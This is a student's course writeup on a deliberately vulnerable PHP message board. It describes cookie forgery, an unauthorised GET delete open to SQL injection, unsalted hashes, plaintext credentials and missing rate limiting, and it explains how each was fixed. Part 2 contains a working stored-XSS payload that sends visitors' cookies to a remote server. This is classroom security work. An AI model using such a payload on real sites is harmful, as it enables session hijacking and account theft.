 # Project Writeup

Bradley Rosenfeld
COS342
11/14/15

## Part 1.

1. The application tries to prevent access to messages by checking for the existence of a cookie that is created when the user is authenticated and logged in. Messages can be deleted by visiting a GET URL, the link to which is only visible when the user who is viewing the message has a cookie that matches the user who created the message. Even worse, the deletion action is vulnerable to SQL injection which would allow any user to delete any post or worse.

 Unfortunately, these security policies are not adequate to prevent unauthorized access. Malicious users can easily create a cookie called "hackme" which contains the username which they wish to target. The actual message deletion action doesn't check to see if the user is authorized, anyone can enter an arbitrary message ID which they wish to delete. 

 In order to fix this I implemented PHP sessions. Rather than sending the actual username and password as a cookie, a unique session ID is set which an attacker wouldn't be able to guess (they could snoop for it, but that is addressed later). The application then checks for the existence of the session ID and makes sure it is valid. Similarly, the deletion action will check to make sure the user is actually authorized and that the ID provided is valid.

2. The database only contains password hashes. But the passwords are not salted resulting in duplication of hashes.

3. Attackers can easily snoop for user credentials for multiple reasons. Since the site is not HTTPS, usernames and passwords are sent via plantext over the network. Furthermore, the username and hashed password are stored in cookies which are sent with every network request. It would be trivial to snoop for credentials.

 To fully fix this, I would need to enable HTTPS. But I did stop saving the username and password in a cookie. Instead I use a unique PHP session ID for further authentication.

4. Login attempts are not rate limited, making brute force attacks trival.
 
 I fixed this by slowing down the number of attempts allowed per minute on a user.

5. No password scheme was implemented, users could submit anything as a password.

## Part 2

The attacker could post an image that fails to load, forcing JS to run. In this case, I wrote a simple script that sends the user's cookie to the remote server.

```
<img src="fdfjkdfjfkjdfdf.dfdjf" onerror="this.src=\'http://10.121.20.103/hackme-xss.php?c=\' + document.cookie">
```

If you're on the Taylor University network, you can view the result of this attack by visiting [http://10.121.20.103/hackme-xss.php](10.121.20.103/hackme-xss.php)

In order to fix this, I disabled all usage of HTML in messages by using the `htmlspecialchars` function in PHP when rendering the user submitted content.

